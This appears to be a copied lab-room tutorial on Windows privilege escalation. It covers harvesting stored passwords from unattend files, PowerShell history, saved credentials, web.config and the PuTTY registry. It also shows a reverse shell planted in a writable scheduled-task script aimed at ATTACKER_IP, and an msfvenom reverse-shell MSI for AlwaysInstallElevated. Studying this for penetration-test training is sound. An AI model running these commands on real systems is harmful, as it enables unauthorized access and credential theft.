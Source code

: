 #+TITLE: Windows-Privilege-Escalation

* Introduction

During a penetration test, you will often have access to some Windows hosts with an unprivileged user. Unprivileged users will hold limited access, including their files and folders only, and have no means to perform administrative tasks on the host, preventing you from having complete control over your target.

This room covers fundamental techniques that attackers can use to elevate privileges in a Windows environment, allowing you to use any initial unprivileged foothold on a host to escalate to an administrator account, where possible.

 If you want to brush up on your skills first, you can have a look through the Windows Fundamentals Module or the Hacking Windows Module

* Windows Privilege Escalation

Simply put, privilege escalation consists of using given access to a host with "user A" and leveraging it to gain access to "user B" by abusing a weakness in the target system. While we will usually want "user B" to have administrative rights, there might be situations where we'll need to escalate into other unprivileged accounts before actually getting administrative privileges.

Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:

  - Misconfigurations on Windows services or scheduled tasks
  - Excessive privileges assigned to our account
  - Vulnerable software
  - Missing Windows security patches

Before jumping into the actual techniques, let's look at the different account types on a Windows system.


** Windows Users

Windows systems mainly have two kinds of users. Depending on their access levels, we can categorise a user in one of the following groups:
Administrators	These users have the most privileges. They can change any system configuration parameter and access any file in the system.
Standard Users	These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files.

Any user with administrative privileges will be part of the Administrators group. On the other hand, standard users are part of the Users group.

In addition to that, you will usually hear about some special built-in accounts used by the operating system in the context of privilege escalation:

| SYSTEM / LocalSystem | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
|----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Local Service        | Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.                                                             |
|----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Network Service      | Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.                                       |

These accounts are created and managed by Windows, and you won't be able to use them as other regular accounts. Still, in some situations, you may gain their privileges due to exploiting specific services.

** Harvesting Passwords from Usual Spots

The easiest way to gain access to another user is to gather credentials from a compromised machine. Such credentials could exist for many reasons, including a careless user leaving them around in plaintext files; or even stored by some software like browsers or email clients.

This task will present some known places to look for passwords on a Windows system.

Before going into the task, remember to click the Start Machine button. You will be using the same machine throughout tasks 3 to 5. If you are using the AttackBox, this is also a good moment to start it as you'll be needing it for the following tasks.

In case you prefer connecting to the target machine via RDP, you can use the following credentials:

User: thm-unpriv

Password: Password321
** Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

#+begin_src xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
#+end_src


** Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a cmd.exe prompt:

#+begin_src shell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
#+end_src

Note: The command above will only work from cmd.exe, as Powershell won't recognize %userprofile% as an environment variable. To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 


** Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

#+begin_src shell
cmdkey /list
#+end_src

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
#+begin_src shell
runas /savecred /user:admin cmd.exe
#+end_src

** IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

#+begin_src 
    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
#+end_src

Here is a quick way to find database connection strings on the file:

#+begin_src shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
#+end_src

** Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:

#+begin_src shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
#+end_src

Note: Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.

Just as putty stores credentials, any software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.

* Other Quick Wins

Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.


** Scheduled Tasks

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
Command Prompt
#+begin_src  shell
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
#+end_src
        

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:
Command Prompt
#+begin_src 
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
#+end_src

        

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
Command Prompt
#+begin_src 
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
#+end_src


We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

#+begin_src 
nc -lvp 4444
#+end_src

The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:
Command Prompt
#+begin_src 
C:\> schtasks /run /tn vulntask
#+end_src

        

And you will receive the reverse shell with taskusr1 privileges as expected:
Kali Linux

#+begin_src 
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1

#+end_src
        

Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.


** AlwaysInstallElevated

Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.
Command Prompt

#+begin_src 
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
#+end_src

To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

#+begin_src 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.217.55 LPORT=LOCAL_PORT -f msi -o malicious.msi
#+end_src

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
Command Prompt

#+begin_src 
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
#+end_src

        

